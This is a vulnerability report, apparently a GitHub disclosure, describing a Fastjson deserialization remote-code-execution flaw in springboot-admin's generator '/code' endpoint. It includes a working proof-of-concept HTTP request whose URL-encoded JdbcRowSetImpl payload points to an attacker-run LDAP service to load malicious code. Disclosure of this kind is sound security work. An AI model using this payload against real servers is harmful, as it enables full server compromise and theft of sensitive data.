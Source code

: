**[springboot-admin](https://github.com/opplus/springboot-admin) Vulnerability Risk Report**

**Vulnerability Location:**
In the `@RequestMapping("/code")` endpoint of the `SysGeneratorController.java` class, specifically in the `JSON.parseArray(tables)` call.

![image-20250328185805310](img/image-20250328185805310.png)

**Vulnerability Description:**
The code uses the Fastjson library without enabling SafeMode or disabling AutoType features. The `JSON.parseArray()` method directly parses unvalidated user input (`tables` parameter). When using Fastjson ≤1.2.83, an attacker could craft malicious JSON data to achieve **Remote Code Execution (RCE)**.

![image-20250328182148905](img/image-20250328182148905.png)
The project is using a vulnerable version of Fastjson.

**Impact:**

- Remote Code Execution (RCE)
- Sensitive server data leakage
- Full server compromise

POC：

```
GET /vgk/dev/admin/sys/generator/code?X-Token=0a5e52568d4e5909d8c18e713c7bc50a&tables=[%7b%22%65%22%3a%7b%22%40%74%79%70%65%22%3a%22%6a%61%76%61%2e%6c%61%6e%67%2e%43%6c%61%73%73%22%2c%22%76%61%6c%22%3a%22%63%6f%6d%2e%73%75%6e%2e%72%6f%77%73%65%74%2e%4a%64%62%63%52%6f%77%53%65%74%49%6d%70%6c%22%7d%2c%22%66%22%3a%7b%22%40%74%79%70%65%22%3a%22%63%6f%6d%2e%73%75%6e%2e%72%6f%77%73%65%74%2e%4a%64%62%63%52%6f%77%53%65%74%49%6d%70%6c%22%2c%22%64%61%74%61%53%6f%75%72%63%65%4e%61%6d%65%22%3a%22%6c%64%61%70%3a%2f%2f%31%32%37%2e%30%2e%30%2e%31%3a%38%30%31%32%2f%4f%62%6a%65%63%74%22%2c%22%61%75%74%6f%43%6f%6d%6d%69%74%22%3a%74%72%75%65%7d%7d] HTTP/1.1
Host: 172.20.10.3:8889
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.20.10.3:8889/vgk/dev/admin/modules/sys/generator.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=bf1aebc9-2d47-47e5-8480-701256c9f1cc
x-forwarded-for: 127.0.0.1
Connection: close


```

**Proof of Vulnerability:**

Establish an LDAP service and load malicious code to exploit the deserialization flaw.![image-20250328182626670](img/image-20250328182626670.png)

Exploitation via Malicious Tables Parameter

![image-20250328183031757](img/image-20250328183031757.png)

Successful code execution

![image-20250328183135349](img/image-20250328183135349.png)